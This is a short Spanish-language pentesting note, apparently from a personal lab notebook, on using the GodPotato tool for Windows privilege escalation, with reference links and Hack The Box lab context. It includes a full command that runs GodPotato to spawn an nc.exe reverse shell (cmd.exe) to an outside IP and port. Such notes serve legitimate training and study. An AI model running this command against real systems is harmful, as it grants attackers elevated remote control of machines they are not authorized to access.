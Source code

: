 
## DESCRIPTION
Es una variante de ROGUE POTATO, si te falla todo lo demás prueba este, que suele funcionar.


#### Mas información
* https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/roguepotato-and-printspoofer
* https://github.com/BeichenDream/GodPotato


## EXPLOITATION

1. Subelo a la máquina [[TRANSFERRING FILES]]

2. Ejecutalo

```
./GodPotato1.exe -cmd "cmd /c c:\programdata\nc.exe -e cmd.exe 192.168.119.169 4444"
```

![[Pasted image 20230419205645.png]]


**!!NOTA IMPORTANTE!!** 
* Puede que funcione con errores al ejecutar comando por ejemplo `whoami` o cualquier ejecutables Pues no se por que pero se me ha solucionado ejecutando antes Rogue Potato, aunque no funcione:

Por ejemplo:
![[Pasted image 20230419205419.png]]

![[Pasted image 20230419205531.png]]

Tras ejecutarlo unas cuantas de veces:

![[Pasted image 20230419205611.png]]


## MACHINES

* Hack The Box: 
*  LABs: R

**!!NOTA IMPORTANTE!!** 